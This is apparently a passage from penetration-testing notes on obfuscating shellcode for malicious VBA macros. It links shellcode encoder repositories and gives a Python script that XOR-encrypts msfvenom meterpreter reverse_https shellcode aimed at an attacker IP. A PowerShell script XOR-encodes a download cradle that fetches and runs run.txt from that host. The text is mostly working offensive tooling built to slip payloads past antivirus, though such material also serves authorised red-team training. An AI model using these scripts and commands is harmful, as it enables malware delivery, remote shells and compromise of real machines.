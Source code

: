


## Shellcode Encoders/Encryptors

- [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/ROT%20Shellcode%20Encoder/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/ROT%20Shellcode%20Encoder/Program.cs)
- [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs)
- [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Encoder/shellcodeCrypter.py](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Encoder/shellcodeCrypter.py)

Shellcode XOR-encrypt helper for VBA:

{% code title="XOREncrypt.py" %}
```python
import ast
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f vbapplication
buf = """buf = Array(31,33,...,33,37)"""
buf = buf[11:]
buf = buf.replace(' _\n', '')
buf = ast.literal_eval(buf)
enc = [b ^ ord('a') for b in buf]
enc = str(enc).replace('[', '').replace(']', '')

parts, chunk = [], ''
for c in enc:
    chunk += c
    if len(chunk) > 200 and c == ',':
        parts.append(chunk.strip())
        chunk = ''
parts.append(chunk)

enc = ' _\r\n'.join(parts)
enc = f'buf = Array({enc})'
print(enc)
```
{% endcode %}

PowerShell XOR-encrypt helper for VBA with WMI de-chain:

{% code title="PS-XOREncrypt-HEX.ps1" %}
```powershell
$payload = "powershell -exec bypass -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')"
[string]$output = ""
$payload.ToCharArray() | % {
    [string]$thischar = [byte][char]$_ -bxor [byte]'a'
    if($thischar.Length -eq 1) {
    $thischar = [string]"00" + $thischar
    $output += $thischar
    }
    elseif($thischar.Length -eq 2) {
        $thischar = [string]"0" + $thischar
        $output += $thischar
    }
    elseif($thischar.Length -eq 3) {
        $output += $thischar
    }
}
$output | clip
```
{% endcode %}
